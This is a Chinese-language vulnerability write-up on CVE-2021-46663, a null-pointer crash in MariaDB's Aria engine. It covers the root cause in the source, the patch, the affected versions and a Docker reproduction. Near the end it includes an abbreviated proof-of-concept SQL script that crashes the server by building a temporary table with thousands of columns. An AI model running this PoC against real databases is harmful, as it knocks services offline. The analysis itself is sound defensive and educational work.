



# CVE-2021-46663 CWE-None MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **Aria：** MariaDB 数据库系统中默认的非事务型存储引擎，原本用于替代 MyISAM，具有高效的读写性能和崩溃恢复能力。Aria 支持表级锁、压缩表和全文索引等特性，常被用于临时表和需要快速查询的场景，但不支持事务和行级锁。随着 InnoDB 成为主流事务型引擎，Aria 主要作为 MyISAM 的安全、稳定升级方案及系统的临时表引擎使用。

## 漏洞原理

MariaDB 在执行特定 SQL 查询并进行资源清理时，仅判断了表结构是否被创建，却没有检查底层存储文件是否真正打开，导致在表文件未成功分配时依然调用了存储引擎接口，最终触发空指针解引用，造成数据库进程崩溃（拒绝服务）。该漏洞可以通过构造字段数量极多的临时表等异常场景被轻易触发。

## 漏洞定位

分析 MariaDB 10.6.3：

1. 在 sql\records.cc 文件，第 352 行`end_read_record`函数用于清理和释放与读取记录相关的资源，常在SELECT等查询结束后被调用。

   其中第 358 行的判断语句只要表对象结构（`info->table`）被创建（`is_created()`为真），就直接操作其底层存储引擎（如调用 `file->extra()`）。这种判断**忽略了表文件是否已经被真正“打开”**（比如 `db_stat`），如果表结构分配成功但实际底层资源（如索引文件）未能分配/打开，`file` 指针可能为 NULL。继续调用 `file->extra()` 就会导致**空指针解引用（Segfault）**，直接引发数据库崩溃。

   ```cpp
   void end_read_record(READ_RECORD *info)
   {
     /* free cache if used */
     free_cache(info);
     if (info->table)
     {
         // 358 行 *********************** 漏洞点
       if (info->table->is_created())
         (void) info->table->file->extra(HA_EXTRA_NO_CACHE);
       if (info->read_record != rr_quick) // otherwise quick_range does it
         (void) info->table->file->ha_index_or_rnd_end();
       info->table=0;
     }
   }
   ```

2. 在 storage\maria\ma_create.c 文件，第 **724** 行的判断语句只检查了 `info_length`，这里只判断了**逻辑表头的长度（`info_length`）**，但实际分配存储空间时，还会根据 block size 做对齐，最终分配的 `key_file_length` 可能比 `info_length` 更大。如果**对齐后超过16位能表示的上限（65535）**，但 `info_length` 未超限，则表结构能“创建成功”，但底层实际打开会失败，产生“表结构已创建但资源未分配”的异常。这将导致**后续cleanup时出现野指针、崩溃等问题**。

   ```c
   DBUG_PRINT("info", ("info_length: %u", info_length));
     /* There are only 16 bits for the total header length. */
   // 第 724 行 *************************** 漏洞点
     if (info_length > 65535)
     {
       my_printf_error(HA_WRONG_CREATE_OPTION,
                       "Aria table '%s' has too many columns and/or "
                       "indexes and/or unique constraints.",
                       MYF(0), name + dirname_length(name));
       my_errno= HA_WRONG_CREATE_OPTION;
       goto err_no_lock;
     }
   ```

## 漏洞修复


1. 将 SQL \records.cc 文件中的条件从“表结构已创建”(`is_created()`) 更改为“表成功打开”(`db_stat` 有效)。只有当`db_stat`表明表文件已经正常打开时，才能访问底层文件指针。这可以避免在底层资源未准备好时访问 NULL 指针，从而防止崩溃。

   ```c
   void end_read_record(READ_RECORD *info)
   {
     /* free cache if used */
     free_cache(info);
     if (info->table)
     {
       if (info->table->db_stat) // if opened, modifies the judgment
         (void) info->table->file->extra(HA_EXTRA_NO_CACHE);
       if (info->read_record != rr_quick) // otherwise quick_range does it
         (void) info->table->file->ha_index_or_rnd_end();
       info->table=0;
     }
   }
   ```

2、修改存储\maria\ma _create.c文件的条件，直接检查`key_file_length`（即实际分配空间的长度）。一旦超过65535（16位可以表示的最大值），**立即抛出错误并终止建表**。这样可以保证不会出现“可以创建但不能正常打开”的异常表，从而提高健壮性。

   ```c
   share.state.state.key_file_length= MY_ALIGN(info_length, maria_block_size);  Increase
     DBUG_PRINT("info", ("info_length: %u", info_length));
     /* There are only 16 bits for the total header length. */
     if (share.state.state.key_file_length > 65535) // Modify the check
     {
       my_printf_error(HA_WRONG_CREATE_OPTION,
                       "Aria table '%s' has too many columns and/or "
                       "indexes and/or unique constraints.",
                       MYF(0), name + dirname_length(name));
       my_errno= HA_WRONG_CREATE_OPTION;
       goto err_no_lock;
     }
   ```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.41 至 10.2.42
- 10.3.32 至 10.3.33
- 10.4.22 至 10.4.23
- 10.5.9 至 10.5.15
- 10.6.0 至 10.6.6
- 10.7.0 至 10.7.3

**影响组件：** Aria（又名Maria）存储引擎

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2021-46663-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2021-46663-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2021-46663-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生导致 DoS，且问题发生在`ha_maria::extra`中，与漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
create table t1 (
a int primary key,
b text
);

create table t2 as
select
1
from
(select distinct
b as c0,
b as c1,
...
b as c2626
from t1
) as tt1;
```

代码中第二个 `create table t2 as select ...` 实际上在构造一个包含**两千多个字段**的临时表（2627 列）。这种极端情况会导致 MariaDB 内部 Aria（Maria/MyISAM）存储引擎在**分配表结构和文件空间时超过极限**，如索引文件头部空间溢出或分配失败。 Aria 试图为如此庞大的临时表分配资源时，创建表对象结构（`is_created()`）成功了，但实际**底层文件没有正常分配与打开**（如 `db_stat` 为假）。

数据库引擎的流程继续下去，在 SQL 语句生命周期结束、做清理（如 `end_read_record`）时，会调用 `file->extra()` 等接口。 MariaDB 只判断表结构“已创建”，没有判断是否“已打开”，就去操作存储引擎接口。此时 `file` 相关成员是 `NULL` 或未初始化指针。于是数据库进程在 cleanup 时访问到空指针，直接崩溃。

## 参考链接


[NVD - CVE-2021-46663](https://nvd.nist.gov/vuln/detail/CVE-2021-46663)

[[MDEV-26351\] segfault - (MARIA_HA *) 0x0 in ha_maria::extra - Jira](https://jira.mariadb.org/browse/MDEV-26351)

[MDEV-26351 segfault - (MARIA_HA *) 0x0 in ha_maria::extra · MariaDB/server@1b8bb44](https://github.com/MariaDB/server/commit/1b8bb44106f528f742faa19d23bd6e822be04f39)

[MDEV-26351 segfault - (MARIA_HA *) 0x0 in ha_maria::extra · MariaDB/server@9e2c26b](https://github.com/MariaDB/server/commit/9e2c26b0f6d91b3b6b0deaf9bc82f6e6ebf9a90b#diff-29ba7747c6060cd2c8cf4d16fbf54c00cac976b203ae872f5c48e90f37a496ff)
